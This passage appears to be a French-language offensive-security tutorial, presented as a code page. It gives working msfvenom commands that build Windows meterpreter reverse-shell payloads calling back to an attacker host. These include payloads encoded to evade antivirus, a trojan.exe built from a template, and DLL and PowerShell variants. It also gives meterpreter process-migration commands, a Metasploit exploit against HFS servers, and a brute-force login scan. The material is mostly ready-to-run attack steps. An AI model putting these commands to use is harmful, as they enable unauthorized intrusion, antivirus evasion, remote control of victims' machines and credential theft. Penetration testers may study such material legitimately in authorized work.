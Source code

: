 
## Techniques d'Évasion

### Bypass d'Antivirus
```bash
# Encoder le payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded_payload.exe

# Utilisation de templates
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -x /path/to/template.exe -f exe -o trojan.exe
```

### Injection en Mémoire
```bash
# Payload reflective DLL
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f dll -o payload.dll

# PowerShell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f psh -o payload.ps1
```

### Migration de Processus
```bash
# Lister les processus
ps

# Migrer vers un processus légitime
migrate 1234

# Migration automatique vers explorer.exe
run post/windows/manage/migrate
```

## Cas Pratiques et Scénarios

### Scénario 1 : Serveur HFS par Défaut
```bash
# Configuration Metasploit
use exploit/windows/http/hfs_command_exec
set RHOSTS 192.168.1.100
set RPORT 80
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit
```

### Scénario 2 : HFS avec Authentification
```bash
# Si authentification requise, utiliser auxiliary/scanner d'abord
use auxiliary/scanner/http/hfs_login
set RHOSTS 192.168.1.100
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

# Puis utiliser les credentials trouvés
use exploit/windows/http/hfs_command_exec
set RHOSTS 192.168.1.100
set HttpUsername found_user
set HttpPassword found_pass
```